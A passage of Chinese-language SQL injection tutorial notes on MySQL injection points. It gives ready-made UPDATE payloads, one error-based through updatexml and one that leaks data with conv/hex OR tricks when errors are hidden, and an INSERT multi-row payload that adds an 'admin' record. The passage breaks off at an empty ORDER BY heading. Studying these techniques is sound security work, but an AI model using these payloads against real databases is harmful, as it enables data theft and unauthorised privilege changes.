 



# 3. 注入位置



## Update注入

```sql
UPDATE TABLE test SET `username`='InjectionPoint' WHERE .....;
```

​	UPDATE是MYSQL中用于更改数据的关键字，一般来说通过报错来完成注入，这程序需要开启错误回显。

```sql
UPDATE TABLE test SET `username`='' or updatexml(2,concat(0x7e,(version())),0) WHERE .....;
```



### ❓如果关闭报错回显呢？

​	利用Mysql非严格模式下，字符串和数组进行或运算得到数字的特性，在关闭了报错的情况下将查询到的数据转换为十进制的数，然后与字符串进行**或运算**，得到的结果就是十进制的数，最终转换为对应的字符串即可。

```sql
UPDATE TABLE test SET `username`='mote'|conv(hex(version()),16,10)|'' WHERE .....;
```

- Mysql中十进制数字范围有限，可以使用`substr()`进行分割

```sql
UPDATE TABLE test SET `username`='mote'|conv(hex(substr(version(),1,5)),16,10)|'' WHERE .....;
```



## Insert注入

一般来说，Insert注入常见地方为文章更新，发表评论等等，这些地方一般使用Insert关键字来修改数据库记录

```sql
INSERT INTO TABELNAME(A,B,C) VALUES($A,$B,$C);
```

假如待插入变量中$A，$B，$C中任意一个变量是攻击者可控的，那么可以改变语句，实现插入多条记录，从而改变变量的上下文限制。

```sql
INSERT INTO TABELNAME(A,B,C) VALUES(A1,B1,C1),(A2,B2,C2);
```

​	例如在程序上下文中`INSERT INTO TABELNAME(A,B,C) VALUES('user',$B,$C);` 已经固定`Column A`的值为 `user`，通过改变`Column C`的值为 `C1),('admin',B2,C2` 即可插入多条记录，并且避开程序对于用户的限制，插入后语句变成了 `INSERT INTO TABELNAME(A,B,C) VALUES('user',B1,C1),('admin',B2,C2);`
​	如果进行多行插入时出现错误，有可能是程序存在隐藏的变量，需要通过响应来判断具体的Column数量来使得语句正确。



## Order By 注入
